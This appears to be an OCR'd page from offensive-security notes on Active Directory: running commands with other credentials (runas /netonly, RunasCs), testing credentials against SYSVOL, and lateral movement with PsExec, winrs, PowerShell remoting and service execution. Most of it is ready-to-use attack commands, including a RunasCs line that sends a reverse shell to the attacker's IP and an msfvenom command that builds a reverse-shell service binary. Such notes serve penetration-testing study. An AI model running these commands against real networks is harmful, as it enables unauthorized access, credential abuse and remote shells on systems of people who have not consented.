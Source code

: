 Windows has a built-in `runas.exe` binary. It allows to run any command as a different user. This command doesn't authenticate credentials against a DC (they are only injected into memory). The `/netonly` flag makes credentials to be used everywhere to domain authentication. Sometimes the binary might not be present on a real server.
```powershell
runas.exe /netonly /user:<domain>\<username> "<command>"

# We have to check if the credentials work. Every AD account
# (even with the lowest privileges) has access to the SYSVOL folder.
dir \\<FQDN>\SYSVOL\                        # Using Kerberos auth
dir \\<IP>\SYSVOL\                          # Using NTLM auth
```

There are other non-default tools:
- https://github.com/antonioCoco/JuicyPotatoNG - local priv-escalation tool
- https://github.com/antonioCoco/RunasCs - tool to open shell connection as a different user
```powershell
.\runascs.exe -d <domain> <user> <pass> cmd.exe -r <my-ip>:<my-port>
```

### Lateral movement
Execute process remotely using captured credentials.

#### PsExec tool
```powershell
psexec64.exe \\<target-ip> -u <user> -p <password> -i "cmd.exe"
```

#### WinRM protocol
Quick method:
```powershell
winrs.exe -u:<user> -p:<password> -r:<target-ip> "cmd.exe"
```

Pure PowerShell method:
```powershell
$username = '<user>';
$password = '<password>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername <target-ip> -Credential $credential
Invoke-Command -Computername <target-ip> -Credential $credential -ScriptBlock {whoami}
```

#### Service command execution (SC tool)
> NOTE: The victim's OS is in charge of starting the service, you won't be able to look at the command output.

```bash
# Generate service campatible (exe-service) reverse shell
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<attacker-ip> LPORT=<attacker-port> -o <output-name.exe>
```

> NOTE: `sc.exe ` doesn't allow to specify credentials as a part of the command so it might be necessary to start new shell (with another account) using `runas` command.
